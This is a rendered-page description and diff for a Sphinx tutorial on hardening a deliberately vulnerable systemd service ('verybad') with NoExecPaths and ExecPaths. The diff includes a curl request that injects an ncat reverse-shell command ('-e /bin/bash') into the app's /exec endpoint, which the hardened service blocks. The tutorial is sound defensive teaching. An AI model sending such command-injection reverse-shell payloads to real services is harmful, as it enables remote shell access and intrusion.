

Before and after one commit to kushaldas/lym, a Sphinx documentation site: the page built from docs/services.rst, in a window 1280 px wide and 1400 px high, scrolled down 15550 px. Shown: the whole window, without its empty margins (388-1141 px from the left). Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; before the commit the page ends 16180 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Adds NoExecPaths etc

```diff
--- a/docs/services.rst
+++ b/docs/services.rst
@@ -880,3 +880,80 @@ Now, if you go back you can see a connection has been established.
   fedora:x:1000:1000:fedora Cloud User:/home/fedora:/bin/bash
 
 See if you can esclate to `root` from this shell :)
+
+Allowed Executables
+-------------------
+
+We can further lock down the service using the `NoExecPaths` and `ExecPaths`
+configuration. `NoExecPaths=` will let us set paths from which (if directory) or
+the files themselves will not be allowed to execute. And then we can only
+mention the execuables we want to allow. This should also include any library
+which will be mapped to memory as exec.
+
+In our case we have to find out the libraries we are linked against and same for
+any executable we need, that is `/usr/bin/date`.  Let us use `ldd` command to
+find this information. We will also need `/usr/lib/systemd/systemd` in the allow list.
+
+::
+
+  $ ldd /usr/bin/date
+  linux-vdso.so.1 (0x00007ffe9c7f9000)
+  libc.so.6 => /lib64/libc.so.6 (0x00007f08ac188000)
+  /lib64/ld-linux-x86-64.so.2 (0x00007f08ac3b3000)
+  $ ldd /usr/sbin/verybad
+  linux-vdso.so.1 (0x00007ffd0b9a9000)
+  libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007fe39ccc4000)
+  libm.so.6 => /lib64/libm.so.6 (0x00007fe39cbe8000)
+  libc.so.6 => /lib64/libc.so.6 (0x00007fe39c9de000)
+  /lib64/ld-linux-x86-64.so.2 (0x00007fe39d082000)
+
+Let us add these in our service file & put `/` in `NoExecPaths`.
+
+.. code-block:: ini
+
+  [Unit]
+  Description=Very Bad Web Application
+  After=network.target
+
+  [Service]
+  Type=simple
+  ExecStart=/usr/sbin/verybad
+  Restart=always
+  DynamicUser=yes
+  StateDirectory=verybad
+  WorkingDirectory=/var/lib/verybad
+  NoExecPaths=/
+  ExecPaths=/usr/sbin/verybad /usr/lib/systemd/systemd /lib64/ld-linux-x86-64.so.2 /lib64/libgcc_s.so.1 /lib64/libm.so.6 /lib64/libc.so.6 /usr/bin/date
+
+  [Install]
+  WantedBy=multi-user.target
+
+
+Then `daemon-reload` & `restart` the service. & we will try the `curl` command once again.
+
+::
+
+  $ sudo systemctl daemon-reload
+  $ sudo systemctl restart verybad
+  $ curl http://localhost:8000/exec/date
+  Wed Mar 30 10:11:49 AM UTC 2022
+  $ curl http://localhost:8000/exec/ncat%20127.0.0.1%205555%20-e%20%2Fbin%2Fbash
+  <!DOCTYPE html>
+  <html lang="en">
+  <head>
+      <meta charset="utf-8">
+      <title>500 Internal Server Error</title>
+  </head>
+  <body align="center">
+      <div role="main" align="center">
+          <h1>500: Internal Server Error</h1>
+          <p>The server encountered an internal error while processing this request.</p>
+          <hr />
+      </div>
+      <div role="contentinfo" align="center">
+          <small>Rocket</small>
+      </div>
+  </body>
+  </html>
+
+To learn more read the man page via **man systemd.exec**.
```
